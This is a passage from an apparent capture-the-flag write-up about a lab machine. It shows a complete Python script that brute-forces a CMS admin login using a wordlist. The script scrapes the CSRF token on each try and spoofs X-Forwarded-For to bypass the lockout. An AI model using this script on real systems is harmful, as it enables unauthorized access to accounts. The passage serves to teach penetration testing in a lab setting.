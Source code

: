     
    
    root@kali# wc -l wordlist 
    349 wordlist
    

#### Update Script

The POC script from Rastating proves the concept, but it isn’t set up to
exploit. I’ll make a bunch of changes, having it load my wordlist as an arg
from the command line, using `\r` to print status but on the same line so it
doesn’t blast my terminal, removing the dummy passwords. My script looks like:

    
    
    #!/usr/bin/env python3
    import re
    import requests
    import sys
    
    host = 'http://10.10.10.191'
    login_url = host + '/admin/login'
    username = 'fergus'
    
    with open(sys.argv[1], 'r') as f:
        wordlist = [x.strip() for x in f.readlines()]
    
    for password in wordlist:
        session = requests.Session()
        login_page = session.get(login_url)
        csrf_token = re.search('input.+?name="tokenCSRF".+?value="(.+?)"', login_page.text).group(1)
    
        print(f'\r[*] Trying: {password:<90}'.format(p = password), end="", flush=True)
    
        headers = {
            'X-Forwarded-For': password,
            'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36',
            'Referer': login_url
        }
    
        data = {
            'tokenCSRF': csrf_token,
            'username': username,
            'password': password,
            'save': ''
        }
    
        login_result = session.post(login_url, headers = headers, data = data, allow_redirects = False)
    
        if 'location' in login_result.headers:
            if '/admin/dashboard' in login_result.headers['location']:
                print('\rSUCCESS: Password found!' + 50*" ")
                print(f'Use {username}:{password} to login.')
                print()
                break
    

When I run it, it will show whatever password is being attempted at the
moment, eventually finding one and printing that and exiting. It takes about
16 seconds:
